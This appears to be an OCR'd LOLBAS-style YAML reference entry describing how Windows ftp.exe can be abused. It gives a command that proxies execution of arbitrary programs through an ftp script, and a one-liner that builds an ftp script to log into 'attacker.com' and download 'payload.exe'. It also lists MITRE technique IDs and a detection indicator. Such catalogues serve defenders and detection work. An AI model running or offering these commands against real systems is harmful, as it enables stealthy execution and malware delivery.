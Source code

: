 ```yaml
---
Name: Ftp.exe
Description: A binary designed for connecting to FTP servers
Author: "Oddvar Moe"
Created: "2018-12-10"
Commands:
  - Command: echo !calc.exe > ftpcommands.txt && ftp -s:ftpcommands.txt
    Description: Executes the commands you put inside the text file.
    Usecase: Spawn new process using ftp.exe. Ftp.exe runs cmd /C YourCommand
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
    Description: Download
    Usecase: Spawn new process using ftp.exe. Ftp.exe downloads the binary.
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\ftp.exe
  - Path: C:\Windows\SysWOW64\ftp.exe
Code_Sample:
  - Code:
Detection:
  - IOC: cmd /c as child process of ftp.exe
Resources:
  - Link: https://twitter.com/0xAmit/status/1070063130636640256
  - Link: https://medium.com/@0xamit/lets-talk-about-security-research-discoveries-and-proper-discussion-etiquette-on-twitter-10f9be6d1939
  - Link: https://ss64.com/nt/ftp.html
  - Link: https://www.asafety.fr/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/
Acknowledgement:
  - Person: Casey Smith
    Handle: "@subtee"
  - Person: BennyHusted
    Handle: ""
  - Person: Amit Serper
    Handle: "@0xAmit "
---
```

